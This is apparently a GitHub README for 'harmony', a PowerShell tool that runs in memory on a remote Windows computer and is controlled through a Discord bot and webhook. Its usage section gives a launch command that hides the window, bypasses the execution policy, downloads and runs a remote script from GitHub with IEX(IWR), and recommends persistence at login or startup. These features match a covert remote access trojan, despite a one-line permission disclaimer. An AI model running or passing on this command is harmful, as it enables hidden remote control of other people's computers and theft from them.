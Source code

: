 # Currently all functions seem to work with 1 computer connected. Multiple is currently untested.

A PowerShell rewrite and continuation of the original Python code, designed to run directly in memory for greater efficiency. The PowerShell script is approximately 4 KB, significantly smaller than the ~20 MB executable generated by Python Nuitka*. The PowerShell version is also easier to update.

*While the Python code itself is around 3.5 KB, this doesn’t account for the necessary packages, nor does it consider that Python is often not pre-installed on Windows. Nuitka would need to be used to compile the code into an executable for universal compatibility across all supported Windows systems.

### **Usage Instructions:**

To execute the script, run the following command (preferably with persistence for automatic execution, such as a batch file or similar method at login or startup) on the remote computer you own or have permission to use, ensuring you replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
cmd /c start /min "" powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR 'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1' -UseBasicParsing);exit"
```
